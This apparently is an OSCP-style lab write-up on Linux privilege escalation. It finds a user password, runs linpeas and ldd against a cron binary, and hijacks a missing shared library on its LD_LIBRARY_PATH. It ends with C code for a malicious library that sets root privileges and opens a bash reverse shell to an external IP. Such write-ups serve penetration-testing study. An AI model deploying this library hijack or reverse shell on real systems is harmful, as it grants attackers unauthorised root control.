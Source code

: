 ## Privilege Escalation

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits 
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

Enumerating web directories I found password for pablo:

![image.png](image%2011.png)

Now we can ssh into the box.

There is a cron job owned by root but we don’t have write access to it:

![image.png](image%2012.png)

Let’s run `linpeas.sh` 

![image.png](image%2013.png)

`LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils`

`/usr/bin/log-sweeper`

Let’s see which shared libraries the binary is using with `ldd` command:

```bash
ldd /usr/bin/log-sweeper
```

![image.png](image%2014.png)

We can inject to anyone, even though it is not mandatory each shared library will work for PrivEsc. Among them the easiest one is `utils.so` which is not found. We are gonna create the library put it inside `/usr/local/lib/dev` , because this path is among directories that `LD_LIBRARY_PATH` contain which means when binary is run that path will be checked for `utils.so`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH"); // Remove the environment variable
    setresuid(0, 0, 0);          // Set user ID to root
    system("bash -i >& /dev/tcp/192.168.45.154/80 0>&1");      // Spawn a privileged shell
}

```
